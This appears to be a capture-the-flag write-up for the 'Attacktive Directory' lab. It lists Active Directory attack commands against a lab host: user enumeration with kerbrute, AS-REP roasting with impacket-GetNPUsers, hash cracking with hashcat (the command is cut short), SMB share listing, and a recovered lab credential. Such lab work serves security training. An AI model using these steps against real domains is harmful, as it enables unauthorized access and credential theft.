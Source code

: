 # Attacktive Directory

### Enumeration

```
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image.png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```bash
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

```
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>
